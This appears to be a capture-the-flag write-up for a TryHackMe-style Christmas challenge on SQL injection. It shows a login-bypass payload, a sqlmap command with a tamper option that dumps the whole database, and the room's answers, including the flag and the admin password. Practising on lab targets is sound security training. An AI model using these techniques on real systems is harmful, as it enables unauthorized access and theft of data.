 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2870%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2841%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2864%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2819%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2847%29.png)

![](../.gitbook/assets/image%20%2813%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2824%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2865%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}


